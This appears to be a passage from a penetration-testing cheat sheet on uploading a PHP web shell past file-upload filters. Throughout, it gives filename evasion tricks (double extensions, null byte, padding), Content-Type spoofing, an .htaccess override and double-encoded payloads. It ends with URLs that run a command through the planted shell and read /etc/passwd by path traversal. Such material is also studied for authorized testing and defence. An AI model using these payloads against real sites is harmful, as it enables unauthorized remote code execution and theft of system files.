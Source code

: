 ### Modify to Bypass Filters

#### Extension Tricks

Try bypassing filters using:
- `shell.php.jpg`
- `shell.p.phphp`
- `shell.php%00.jpg` (some older PHP versions)
- `shell.php    ` (with spaces)

#### MIME Type Spoof

Change:

```http
Content-Type: application/x-php
```

To:

```http
Content-Type: image/jpeg
```

Or even:

```http
Content-Type: text/plain
```

### Hidden Upload Directory

Sometimes the shell gets uploaded to `/uploads/`, `/images/`, or `/files/`. Check these locations after upload:

```
http://target.com/uploads/shell.php
http://target.com/images/shell.php
```

### Extra

- Add random junk to `filename` to confuse naive filters:

```
filename="sh.ell.ph.p.p.php.jpg"
```

- If WAF filters content, try:
  - Uploading via `PUT` (advanced)
  - Double-encoded payloads (`%252e%252e`)
  - Uploading `.htaccess` to re-enable PHP parsing

### Test Shell (After Upload)

Access:

```
http://target.com/uploads/shell.php?cmd=id
http://target.com/uploads/shell.php?file=../../../../etc/passwd
```
